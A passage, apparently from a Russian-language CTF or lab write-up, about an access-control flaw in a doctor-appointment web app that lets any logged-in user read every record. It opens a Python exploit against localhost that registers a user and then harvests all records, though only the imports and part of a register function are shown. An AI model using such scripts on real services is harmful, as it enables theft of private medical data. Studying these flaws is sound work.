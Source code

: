 ![ScreenShot](screenshots/16.png)

Таким образом, стоит нам только пройти авторизацию через любого пользователя, и мы можем получить доступ ко всем записям. Представим, что у пользлвателя "Ryan Gosling" есть две записи к врачам. Напишем эксплой, который регистрирует пользователя в системе, затем проходит авторизацию и последовательно забирает все записи к врачам:

```python
import requests
from bs4 import BeautifulSoup
import random
import os
import sys


url = 'http://localhost:1337'


# Функция для регистрации аккаунта
def register(url, username, password):
    res = requests.post(
        url + "/register",
        data={
            "username": username,
            "personalData": f"{username}@gmail.com",
```
